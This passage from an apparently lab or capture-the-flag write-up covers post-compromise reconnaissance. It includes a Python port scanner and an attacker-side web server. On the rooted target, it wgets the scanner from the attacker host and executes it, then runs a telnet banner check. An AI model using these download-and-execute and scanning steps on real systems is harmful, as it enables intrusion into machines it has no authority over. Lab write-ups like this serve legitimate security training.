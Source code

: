 ### Port Scanning

I developed a python port scanner to discover open ports.

```python
#!/usr/bin/env python3 

import socket

host = "192.168.56.104"

def scan(port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.settimeout(3)
        return True
    except:
        pass

for p in range(1, 65535):
    if scan(p):
        print("[+] Port {} open".format(p))
```

We start a web server with python on port 80.

```console
root@kali:~$ python3 -m http.server 80
```

On target machine we download the port scanner, give it execution permissions and execute it.

```console
root@straylight:/root# wget 192.168.179.1/pscan.py

root@straylight:/root# chmod +x pscan.py
chmod +x pscan.py
root@straylight:/root# ./pscan.py
./pscan.py
[+] Port 8009 open
[+] Port 8080 open
[+] Port 34483 open
root@straylight:/root#
```

### Service Enumeration

We check the banner on port 8009 with telnet but the service was not detected.

```console
root@straylight:/root# telnet 192.168.56.104 8009
telnet 192.168.56.104 8009
Trying 192.168.56.104...
Connected to 192.168.56.104.
Escape character is '^]'.

Connection closed by foreign host.
root@straylight:/root#
```
